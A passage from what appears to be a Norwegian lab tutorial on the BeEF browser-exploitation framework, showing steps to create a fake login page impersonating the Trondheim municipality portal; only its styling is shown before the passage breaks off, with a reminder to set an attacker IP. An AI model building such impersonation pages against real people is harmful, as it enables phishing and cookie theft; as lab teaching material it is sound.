 ### 2.1 Opprett en ny HTML-fil med cookies

På Kali:
```bash
cd ~/beef-lab
nano cookies-demo.html
```

### 2.2 Lim inn følgende kode

**⚠️ Husk å endre IP-adressen!**

```html
<!DOCTYPE html>
<html lang="no">
<head>
    <meta charset="UTF-8">
    <title>Innlogging - Trondheim Kommune Portal</title>
    <style>
        body {
            font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
            background: linear-gradient(135deg, #1e3c72 0%, #2a5298 100%);
            display: flex;
            justify-content: center;
            align-items: center;
            height: 100vh;
            margin: 0;
        }
        .login-container {
            background: white;
            padding: 40px;
            border-radius: 10px;
            box-shadow: 0 10px 25px rgba(0,0,0,0.2);
            max-width: 400px;
            width: 100%;
        }
        .logo {
            text-align: center;
            margin-bottom: 30px;
        }
        h1 {
            color: #1e3c72;
            margin: 0;
            font-size: 1.8em;
        }
        .subtitle {
            color: #666;
            font-size: 0.9em;
            margin-top: 5px;
        }
        input {
            width: 100%;
            padding: 12px;
            margin: 10px 0;
            border: 1px solid #ddd;
            border-radius: 5px;
            box-sizing: border-box;
            font-size: 1em;
        }
        button {
            width: 100%;
            padding: 12px;
            background: #1e3c72;
            color: white;
            border: none;
```